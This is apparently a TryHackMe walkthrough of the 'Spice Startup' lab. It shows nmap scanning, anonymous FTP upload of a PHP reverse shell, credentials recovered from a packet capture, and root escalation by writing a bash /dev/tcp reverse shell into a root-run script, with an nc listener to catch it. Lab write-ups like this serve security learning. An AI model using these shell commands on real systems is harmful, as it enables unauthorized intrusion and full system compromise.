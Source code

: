 # TryHackMe: Spice Startup Walkthrough

This document outlines a workflow conducted during the "Spice Startup" challenge on TryHackMe. The goal was to assess system vulnerabilities, gain initial access, enumerate users, and escalate privileges to root access. Below is a detailed explanation of the methodology and tools used.

---

## 1. Network Enumeration

We begin with a network scan using `nmap` to identify open ports and running services:

```bash
nmap -sV 10.10.210.195
```

### Results:
```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10
```

Two services are detected:
- **FTP (port 21)**: vsftpd 3.0.3, potentially misconfigured to allow anonymous access.
- **SSH (port 22)**: OpenSSH 7.2p2, typically used for secure remote shell access.

---

## 2. FTP Access and Exploitation

With FTP open, we test for anonymous login:

```bash
ftp anonymous@10.10.210.195
```

When prompted for a password, simply pressing enter grants access. Once connected, we enumerate the files and directories.

### File Interaction Commands:
- **Download a file:**
  ```bash
  get FILENAME
  ```
- **Upload a file (if permissions allow):**
  ```bash
  put FILENAME
  ```

We discovered that the FTP directory has write permissions. We leverage this by uploading a PHP reverse shell:

```bash
put shell.php
```

**Tool used:** [Pentestmonkey PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

After triggering the shell via a browser or curl, we stabilize it:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

### Findings:
- We retrieve our first flag from a file named `recipe.txt`.

---

## 3. Network Forensics

Inside a directory named `incidents`, we find a `.pcapng` file:

```bash
cp /incidents/suspicious.pcapng /var/www/html/files/ftp
```

This command places the file in a web-accessible directory for download. We then analyze it using **Wireshark**.

### Analysis:
- Use the menu option: `Follow -> TCP Stream` on TCP packets
- Review inputs and commands visible in the stream

This reveals a password being tested for a potential user named `Lennie`.

### Credentials:
- **Username:** Lennie
- **Password:** `c4ntg3t3n0ughsp1c3`

---

## 4. SSH Access and User Flag

We use the credentials discovered in the packet capture to SSH into the target system:

```bash
ssh lennie@10.10.210.195
```

Upon successful login, we locate and read `user.txt` to collect the second flag.

---

## 5. Privilege Escalation

We continue our enumeration and discover a script: `startup_list` which is executed as root. This script runs another file: `print.sh`, to which we have write permissions.

We exploit this by editing `print.sh` to contain a reverse shell:

```bash
bash -i >& /dev/tcp/10.6.8.136/8080 0>&1
```

**Note:** Replace `10.6.8.136` with your machine’s IP address.

On our local machine, we listen for the shell with:

```bash
nc -lvnp 8080
```

Once the root process executes `print.sh`, we receive a root shell on our listener, achieving full system compromise.

---
